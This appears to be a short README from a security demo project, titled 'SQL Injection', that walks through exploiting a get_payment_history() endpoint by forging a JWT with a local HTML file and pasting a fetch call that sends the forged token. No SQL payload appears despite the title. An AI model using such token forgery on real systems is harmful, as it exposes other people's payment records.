


# SQL Injection

## Prerequisites

## Demos

### get_payment_history()
#### Exploit
1. Log in as any user.
2. Drag & drop ./exploit/forge_jwt.html into another tab in the same browser window.
3. Open the browser console in this new tab and copy the generated forged JWT shown.

4. Return to the tab on which the user is logged in and open the browser console.
5. Paste the following, run, and observe outcome:
    
    `let token = "<forged_JWT>"
    fetch("/api/bill-payments/history", {
        method: "GET",
        headers: {
            "Authorization": `Bearer ${token}`
        }
    })
    .then(r => r.json())
    .then(console.log)
    .catch(console.error);`
    
